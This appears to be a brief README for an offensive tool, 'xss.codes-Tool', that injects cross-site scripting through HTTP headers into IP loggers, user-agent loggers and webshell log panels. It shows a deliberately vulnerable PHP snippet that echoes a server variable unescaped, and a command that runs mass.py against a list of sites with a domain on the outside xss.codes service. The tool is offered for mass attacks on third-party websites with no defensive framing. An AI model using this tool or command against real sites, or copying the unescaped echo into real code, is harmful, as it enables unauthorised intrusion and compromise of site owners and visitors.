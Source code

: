 # xss.codes-Tool
https://xss.codes Http Header XSS Attacker

# What does this do?

You can Exploiting The : 

*IP Loggers

*Useragent Loggers

*Webshell Log Panels eg.

# Example Vulnerable PHP code:


$sakso = $_SERVER["REMOTE_ADRR"];

echo "ip logged :".$sakso

# Mass : 

python mass.py -l sitelist.txt -u xss.codes userdomainname
